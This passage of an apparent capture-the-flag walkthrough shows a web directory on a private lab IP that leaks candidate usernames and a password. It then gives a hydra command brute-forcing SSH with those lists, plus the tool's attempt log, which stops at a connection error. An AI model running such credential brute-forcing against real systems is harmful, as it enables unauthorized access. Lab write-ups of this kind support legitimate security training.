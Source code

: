 - URL : http://192.168.105.134/0x0856BF/
    - It contains folders
    - good_luck/
        - which_one_lol.txt
    - this_folder_contains_the_password/
        - Pass.txt
- which_one_lol.txt
    ```
    maleus
    ps-aux
    felux
    Eagle11
    genphlux < -- Definitely not this one
    usmc8892
    blawrg
    wytshadow
    vis1t0r
    overflow
    ```

- Pass.txt
    ```
    Good_job_:)
    ```
- Usernames and Password for the system 
- ftp is anonymous only and only other service is ssh so this might be for ssh login


## Exploitation

### 22 ssh : OpenSSH 6.6.1p1 (Brute Force Attack)

- Brute force attack on SSH service
- Using hydra for bruteforcing ssh service
    ```
    hydra -v -V -L users -P pass -e n -t 1 -w 30 ssh://192.168.105.134
    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-24 21:21:45
    [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
    [DATA] max 1 task per 1 server, overall 1 task, 22 login tries (l:11/p:2), ~22 tries per task
    [DATA] attacking ssh://192.168.105.134:22/
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [INFO] Testing if password authentication is supported by ssh://maleus@192.168.105.134:22
    [INFO] Successful, password authentication is supported by ssh://192.168.105.134:22
    [ATTEMPT] target 192.168.105.134 - login "maleus" - pass "" - 1 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "maleus" - pass "Good_job_:)" - 2 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "ps-aux" - pass "" - 3 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "ps-aux" - pass "Good_job_:)" - 4 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "felux" - pass "" - 5 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "felux" - pass "Good_job_:)" - 6 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "Eagle11" - pass "" - 7 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "Eagle11" - pass "Good_job_:)" - 8 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "genphlux" - pass "" - 9 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "genphlux" - pass "Good_job_:)" - 10 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "usmc8892" - pass "" - 11 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "usmc8892" - pass "Good_job_:)" - 12 of 22 [child 0] (0/0)
    [ATTEMPT] target 192.168.105.134 - login "blawrg" - pass "" - 13 of 22 [child 0] (0/0)
    [ERROR] could not connect to target port 22: Connection refused
    [ERROR] ssh protocol error
    [VERBOSE] Retrying connection for child 0